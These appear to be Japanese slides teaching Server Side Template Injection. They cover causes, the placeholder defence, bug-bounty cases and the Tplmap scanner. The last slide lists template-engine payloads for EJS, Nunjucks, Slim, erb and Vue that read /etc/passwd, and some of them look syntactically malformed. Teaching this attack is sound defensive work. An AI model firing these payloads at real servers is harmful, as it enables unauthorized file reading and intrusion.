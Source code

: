 ----

# Server Side Template Injection

- ユーザー入力からテンプレートを作ってしまうと問題が起きる
    - SQL Injectionとよく似ている
    - 基本的な対策はユーザー入力をテンプレートにわたすときにプレースホルダーを使う！
- 事例: 有名なサイトでも結構やらかしている. $10,000 > ぐらいの報奨金がでる
    - [Yahoo! RCE via Spring Engine SSTI – ∞ Growing Web Security Blog](https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/)
    - [Artsploit: [demo.paypal.com] Node.js code injection (RCE)](https://artsploit.blogspot.com/2016/08/pprce2.html)
    - [#125980 uber.com may RCE by Flask Jinja2 Template Injection](https://hackerone.com/reports/125980)
    - [#423541 H1514 Server Side Template Injection in Return Magic email templates?](https://hackerone.com/reports/423541)

----

# Template Injection

- 多くのProgramming Language Templateの攻撃方法が確立されている
- [Tplmap](https://github.com/epinna/tplmap)などの検査ツールもある(テンプレート構文っぽい文字列をクエリに入れまくる)
- 参考: [DiogoMRSilva/websitesVulnerableToSSTI: Simple websites vulnerable to Server Side Template Injections(SSTI)](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI)

----

[EJS](https://ejs.co/)

```
<%% global.process.mainModule.require('fs').readFileSync('/etc/passwd').toString() %%>
```

[Nunjucks](https://mozilla.github.io/nunjucks/)

```
{% global.process.mainModule.require('fs').readFileSync('/etc/passwd').toString() }
```

[Slim](http://slim-lang.com/)

```
#{ File.open('/etc/passwd').read %>}
```

[erb](https://ruby-doc.org/stdlib-2.6.2/libdoc/erb/rdoc/ERB.html)

```
<%= File.open('/etc/passwd').read %>
```

[Vue(SSR)](https://vuejs.org/)

```
{{ global.process.mainModule.require('fs').readFileSync('/etc/passwd').toString() }}
```


[Web scratch]: http://efcl.info/ "Web scratch"
[JSer.info]: http://jser.info/ "JSer.info"
[^1]: [StringTemplate](https://www.stringtemplate.org/)や[ANTLR](https://github.com/antlr/antlr4)の作者。30年以上パースについての研究をしている